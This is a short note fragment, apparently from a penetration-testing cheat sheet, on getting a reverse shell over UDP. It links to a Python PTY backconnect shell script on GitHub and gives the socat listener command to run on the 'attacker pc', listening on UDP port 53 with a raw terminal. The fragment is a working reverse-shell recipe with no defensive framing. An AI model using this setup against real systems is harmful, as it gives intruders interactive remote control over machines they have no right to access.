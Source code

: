 ## USING THE UDP TO GET THE SHELL
`` [https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py)

on attacker pc --> socat file:`tty`,raw,echo=0 udp-listen:53``
